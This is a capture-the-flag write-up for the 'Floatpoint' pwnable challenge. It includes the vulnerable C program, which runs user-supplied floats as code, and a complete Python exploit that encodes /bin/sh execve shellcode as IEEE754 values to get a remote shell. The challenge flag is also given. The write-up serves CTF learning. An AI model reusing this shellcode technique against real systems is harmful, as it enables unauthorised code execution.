 # Floatpoint [Pwnable - 175]

## Challenge description
IEEE754 is useful when your values go from -inf to +inf, but really, fixed point is all you need. 
But if you want, you could grab this too. 
Running at fixedpoint.pwning.xxx:7777

## Challenge code
```C
#include <stdlib.h>
#include <sys/mman.h>
#include <stdio.h>

int main(int argc, char** argv) {
  float* array = mmap(0, sizeof(float)*8192, 7, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
  int i;
  int temp;
  float ftemp;

  for (i = 0; i < 8192; i++) {
    if (!scanf("%d", &temp)) break;
    array[i] = ((float)temp)/1337.0;
  }

  write(1, "here we go\n", 11);
  (*(void(*)())array)();
}
```

## Solution
It's easy to see that we need to find numbers that their IEEE754 representation divided by 1337 produces valid shellcode. 
For those not familiar with IEEE754, it's basically a standard to represent float point numbers in computers.

In this chall I perceived that I could only control reliably the inner bytes of a 4byte value, so I needed to construct 
2 bytes shellcode and 2 bytes NOP, in this format 0xNSSN (where N is nop and S is part of real shellcode). 

```python
import struct
import pwnlib
import time


def get_int(s):
  a = struct.unpack('<f', s)[0]* 1337
  return struct.unpack('I', struct.pack('<I', a))[0]


target = pwnlib.tubes.remote.remote('fixedpoint.pwning.xxx', 7777, ssl=False)

print "Sending IEEE754 shellcode..."
time.sleep(1)

for i in range(3):
  target.sendline(str(get_int('\x00\x00\x00\x00')))

target.sendline(str(get_int('\x99\x89\xc3\x47')))     # mov ebx, eax
target.sendline(str(get_int('\x41\x44\x44\x44')))     # nop/align

for c in '/bin/sh\x00':
  target.sendline(str(get_int('\x99\xb0'+c+'\x47')))  # mov al, c
  target.sendline(str(get_int('\x57\x89\x03\x43')))   # mov [ebx], eax; inc ebx
  
for i in range(8):
  target.sendline(str(get_int('\x57\x4b\x41\x47')))   # dec ebx
  
target.sendline(str(get_int('\x99\x31\xc0\x47')))     # xor eax, eax
target.sendline(str(get_int('\x99\x31\xc9\x47')))     # xor ecx, ecx
target.sendline(str(get_int('\x99\x31\xd2\x47')))     # xor edx, edx
target.sendline(str(get_int('\x99\xb0\x0b\x47')))     # mov al, 0xb
target.sendline(str(get_int('\x99\xcd\x80\x47')))     # int 0x80

target.sendline('c')
target.interactive()
```

**PCTF{why_isnt_IEEE_754_IEEE_7.54e2}**


